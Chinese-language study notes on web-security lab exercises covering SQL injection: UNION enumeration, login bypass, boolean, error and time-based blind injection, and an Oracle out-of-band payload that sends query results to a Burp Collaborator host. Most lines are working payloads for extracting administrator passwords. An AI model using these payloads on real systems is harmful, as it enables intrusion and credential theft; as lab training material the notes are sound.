

SQL注入-刷题A
针对不同数据库的备忘录可在链接中找。
大体分类：
T0~T1 字符/数字型注入
T2~T5 union注入
T6~T10 数据库的版本问题+union注入和数据库本身保留字
T11~T13盲注
T14带外
T0允许检索隐藏数据的注入
知道注入点以后，判断属于字符型注入还是数字型注入
whatever' or 1=1--
url中用加号链接，加号就代表空格
https://insecure-website.com/products?category=Gifts'+OR+1=1--
T1允许绕过登录的注入
已知我需要拿用户名administrator登录
administrator'--
UNION从其他表中检索数据
T2测试列数
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
或者
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

T3查找具有有用数据类型的列
通常对我们有用的数据类型都是字符串的形式。
Accessories' UNION SELECT 'nEsVgZ',NULL,NULL--
Accessories' UNION SELECT NULL,'nEsVgZ',NULL--
Accessories' UNION SELECT NULL,NULL,'nEsVgZ'--
用第二行测试的时候能返回出数据，说明字符串变量在中间。
T4union攻击检索相关数据
Accessories' union select username,password from users--
获取其他有用的表名以及某些列名在 SQL 注入攻击中检查数据库 |网络安全学院 (portswigger.net)
爆得管理员账号和密码：administrator oqo2a0518xsi2ewtfs44
T5检索单个列中的多个值
为什么要让返回的多个字段拼接成一个字段的原因：
因为注入点的限制发现，有用的字符类型 的列只有一列（也就是只能查到一个字段的数据），
而我们需要的数据有好几列，所以想要查到的数据完整，只能用拼接的方式。
检查列数和字符列是哪一个：
Accessories' union select null,'aca'--
#试过第二列一列是字符型
用保留字爆出表名，找到可能存储的user表：
Accessories' union select null,table_name from information_schema.TABLES--
继续爆出列名，发现password、username：
Accessories' union select null,column_name from information_schema.columns where table_name='users'--
但是因为我们要查两个字段的内容，而注入点只能返回一个字段的东西,所以想到用拼接函数构造payload：
Accessories' union select null,CONCAT_WS('~',USERNAME,PASSWORD) from USERS--
SQL注入检查数据库
不同数据库的目录清单SQL注入备忘单|网络安全学院 (portswigger.net)
先确定数据库的版本

- 
T6查询Oracle的类型和版本
首先确定了列数以及类型
Accessories'union select null,null from dual--
Accessories'+UNION+SELECT+'abc','def'+FROM+dual--
然后查询数据库版本
Accessories' UNION SELECT banner,'null' FROM v$version--
T7查询Microsoft的类型和版本
踩坑：
sql注入的语句要写在burpsuite抓到的包里，且空格需要用加号代替。才能看出返回的结果到底报不报错。
gifts'+union+select+@@version,'null'#
再查询库本身带的保留字
T8列出非Oracle数据库的内容
' union select 'null','null'#
' union select table_name,null from information_schema.tables--
找到可能的用户名-密码表“users_czbssr”
' union select column_name,null from information_schema.columns WHERE table_name='users_czbssr'--
找到可能的两个列名username_cbmpsc、password_tcusrs
' union select username_cbmpsc,password_tcusrs from users_czbssr--
找到administrator对应的密码。
T9列出Oracle上的数据库内容
判断出有两个都为字符类型的列：
Lifestyle'+union+select+'null','null'+from+dual--
Oracle查表用all_tables
Lifestyle'+union+select+table_name,'null'+from+all_tables--
找到可能的表名USERS_OJOCYX，接着查可能的列名本身（在all_tab_columns里找）：
Lifestyle'+union+select+COLUMN_name,'null'+from+all_tab_columns+where+table_name='USERS_LTNNSA'--
#踩坑：只能是双引号不能是单引号
找到可能的列PASSWORD_BOGRBE，USERNAME_HUXQNN查列中的数据：
Lifestyle'+union+select+PASSWORD_TPSLJZ,USERNAME_EGBQKW+from+USERS_LTNNSA--
Oracle数据库的SQL注入
不同版本的数据库+检查数据库
Examining the database in SQL injection attacks | Web Security Academy (portswigger.net)
Oracle与Mysql的最大区别
-
Oracle会对字段的类型敏感，也就是说我们需要在字符型字段使用字符型类型，在整型字段使用整型数据才可以。
比如不能直接：
' UNION select 1,2#而是应该：
' UNION select 'null','null' from dual# -
如果是Oracle数据库，在进行union注入时，要额外加上
from dual比如：
Accessories'union select null,null from dual-- Accessories'+UNION+SELECT+'abc','def'+FROM+dual--dual是Oracle中内置的一个表格 -
不会有信息模式的视图
T10判断是否是Oracle数据库
例如：（假设有两个列）
' order by 2-- 返回200正确
' union select null,null-- 返回500错误
说明一定是Oracle，因为只有Oracle的联合注入必须要加from dual
' union select null.null FROM dual-- 返回200正确
Oracle常用符号之双管道序列
在Mysql和maria中是“或”的意思。
||做字符串的串联/链接
用合适的分隔符做分区组合
' UNION SELECT username || '~' || password FROM users--
#表示把查询到的username和password用符号‘~’链接起来,即username~password
做链接的内容是执行后的sql语句
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'(SELECT '')'
Oracle特有关键字和函数
-
ROWNUM,限制查询的行数等同于MySQL的
limit -
to_char()将数值型或者日期型转化为字符型
1/0是必须加这个函数
-
SUBSTR(PASSWORD,1,1)等同于Mysql中的SUBSTRING()函数
截取字符串，从第一个位置截取长度为1的字符串
盲注
T11布尔注入
正确会返回welcome back，但错误时不会回显任何东西，只会和原页面无异。
正确和错误都是200。
本例中注入点在cookie，抓包获得，判断是否可注,此处因为是字符变量，所以注入写成字符型
TrackingId=skltCt9gC13tASAk' AND '1'=1
判断是否存在user表和username=‘administrator’的一行
skltCt9gC13tASAk' and (SELECT 'A' FROM users WHERE username='administrator')='A
attack出密码长度，发现是20位
TrackingId=skltCt9gC13tASAk' AND ( select 'a' from users where username='administrator' AND LENGTH(password)>§1§)='a
-
要知道这里的where后面的and前后的东西是一起的，都是对于select的限制，而不是and相连的布尔判断式
where username='administrator' AND LENGTH(password)>§1§ -
为什么intruder后length不同就能判断出密码的长度？
因为这里的length代表的是反应时长，因为密码正确和错误所反应的时间是不同的。
然后继续爆出密码。
TrackingId=skltCt9gC13tASAk' AND (select SUBSTRING(password,$1$,1) from users where username='administrator')='$a$
T12报错盲注
方法一：利用||(Oracle、PostgreSQL数据库优先考虑此方法)
==首次卡在管道的逻辑理解上==
本题是Oracle数据库
直接错误（sql语句错误）时或者正确时都不会返回任何东西。
只有当输入语句本身错误（sql语法错误）（比如1/0）时才会报错。故可以利用此倒推
正确和错误都是200，但报错是500
在注入点cookie判断是否可用报错注入（即是否对语法错误敏感）:
- 方法一：
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
- 方法二：
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回错误
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回正确
然后运用||,并且确定是Oracle数据库：
TrackingId=xyz'||(SELECT '' FROM dual)||' #正确
TrackingId=xyz'||(SELECT '')||' #错误
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||' #查一个不存在的表，返回错误，确定这个点能注
确定想要查的表是否存在和想要查的用户名是否存在：
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
#有ROWNUM限制是因为，用||的前后select语句必须是返回的相同行
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
#确定是否有administrator用户名
确定密码长度：
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
确定密码：
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
方法二：利用and
确定了是Oracle数据库：
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a' FROM dual)='a-- #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a')='a-- #返回500
判断是否存在语法错误的两种方法,判断结果为存在：
#因为是Oracle数据库，所以必须1/0时有to_char()函数女，且要有 from dual
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a-- #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a-- #返回500
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
确定是否有users表和user=administrator的用户：
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a--
#返回200，说明有
确定密码位数，为20位：
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when LENGTH(password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a--
确定密码：
#爆失败
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when (1=2) THEN TO_CHAR(1/0) ELSE SUBSTR(PASSWORD,§1§,1) END FROM users where username='administrator')='§a§--
#爆成功
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
==汲取经验：==
爆失败是因为：
CASE..WHEN..THEN..ELSE逻辑问题语法正确和语法错误的两种情况并没有在Intruder中都用到(这样就会使得全都返回200，bp中就看不出来了所以也谨记，bp密码爆破的原理是返回的状态不一样)。即并没有在所有情况的爆破中出现
THEN...ELSE...两边的情况。即我们的密码判断是否是某个字符的表达式应该在
SELECT CASE WHEN后面
改进，爆密码，爆成功！：
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when SUBSTR(PASSWORD,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'A' END FROM users where username='administrator')='A--
T13 时间盲注
坑：URL编码
%3B=;
但有的时候语句中有;不可以，但有%3B可以，所以语句注入没有效果时，应该考虑将语句中的所有符号或者空格全都转换成URL编码格式。
猜测是因为：有的浏览器本身没有自带转换URL编码的功能。
PostgreSQL数据库
检查是否有时间盲注的漏洞。
#方法一：
TrackingId=x'||pg_sleep(10)--
#方法二：
';select pg_sleep(10)--堆叠注入
' union select 1,2,pg_sleep(10)--或者和union结合在一起，需要预先知道列数
用测试的布尔条件来确认是否有时间盲注漏洞
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
测试是否有这一个数据
#如何在case when then else中加入列名
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
爆密码长度，为20
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND length(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
爆出密码
建议时间注入的爆密码一个一个爆
如果要看返回的时长：To see it, go to the “Columns” menu, and check the box for “Response received”
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
32wja67xqtddkxtz45o2
T14 OAST盲注
Oracle
-
extractvalue(目标XML文档，XML路径)对XML文档进行查询的函数。 -
xmltype()在Oracle 10g中是作为专门的保存XML格式 -
一般注入样例
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual本题payload：
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--